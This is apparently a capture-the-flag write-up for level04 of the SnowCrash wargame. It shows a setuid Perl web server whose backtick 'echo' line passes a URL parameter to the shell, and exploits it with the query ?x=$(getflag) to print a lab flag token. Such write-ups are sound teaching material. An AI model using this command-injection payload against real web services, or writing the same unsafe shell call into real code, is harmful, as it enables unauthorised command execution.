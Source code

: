 # level04

## Recognition

There is a perl script named level04.pl and owned by flag04, containing a script for a simple webserver hosted on 127.0.0.1:4747.

```bash
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

We can try to use `netstat` to see if that server is actually ran.
```bash
nternet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 *:4242                  *:*                     LISTEN
tcp        0      0 localhost:pcrd          *:*                     LISTEN
tcp6       0      0 [::]:4646               [::]:*                  LISTEN
tcp6       0      0 [::]:4747               [::]:*                  LISTEN
tcp6       0      0 [::]:http               [::]:*                  LISTEN
tcp6       0      0 [::]:4242               [::]:*                  LISTEN
udp        0      0 *:bootpc                *:*
Active UNIX domain sockets (only servers)
Proto RefCnt Flags       Type       State         I-Node   Path
unix  2      [ ACC ]     STREAM     LISTENING     8781     @/com/ubuntu/upstart
unix  2      [ ACC ]     STREAM     LISTENING     10199    /var/run/acpid.socket
unix  2      [ ACC ]     STREAM     LISTENING     9186     /var/run/dbus/system_bus_socket
unix  2      [ ACC ]     SEQPACKET  LISTENING     9205     /run/udev/control
```


</br>
</br>

## Exploitation

The server is simply executing the command 
```perl
print `echo $y 2>&1`;
``` 

Where the $y argument is gotten from the x url query variable.

We can simply set the x variable to `$(getflag)` which will execute a subshell therefore echoing the flag to the web page.

```
http://snowcrash:4747/?x=$(getflag)
_____________________________________________________
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```